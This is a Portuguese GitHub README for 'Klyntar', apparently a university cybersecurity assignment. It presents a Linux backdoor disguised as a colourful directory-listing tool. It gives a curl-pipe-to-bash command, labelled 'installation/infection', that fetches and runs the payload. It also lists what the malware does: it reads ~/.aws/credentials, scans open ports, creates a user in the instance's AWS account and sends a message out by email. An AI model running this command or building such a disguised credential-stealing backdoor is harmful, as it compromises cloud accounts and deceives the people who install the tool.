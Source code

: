 <!-- PROJECT LOGO -->

<p align="center">
    <img src="doc/images/venom_image.png" alt="Logo" width="350" height="350">
  <p align="center">
    Trabalho da disciplina de Cybersecurity para criação de um vírus que explora vulnerabilidade de credenciais mal configuradas em servidores AWS EC2. 
  </p>
</p>

## O desafio! 

Elaborar um vírus da categoria back door que possibilite a execução remota de ações no sistema operacional hospedeiro (Linux).

## O disfarce

O programa se disfarça como uma simples ferramenta de linha de comando para mostrar os diretórios de forma colorida no terminal :smile:.

## Porque Klyntar?

O simbionte Venom personagem da Marvel nem sempre foi o inimigo do Homem-Aranha ou um item de seu guarda-roupa. Sua origem está associada a um longínquo planeta na galáxia de Andrômeda, chamado *Klyntar*. Venom é um membro de uma raça alienígena de simbiontes que recebem o mesmo nome de seu planeta natal.

## Instalação/Infecção

``` bash
curl -L https://raw.githubusercontent.com/gabriel-dantas98/klyntar/master/install.sh | bash
```

## Por trás dos panos 

 - Verifica se existe ~/.aws/credentials;
 - Escaneia todas as portas que estão abertas no host;
 - Cria uma usuário na conta que a instância tem permissão;
 - Cria uma mensagem e envia por e-mail;
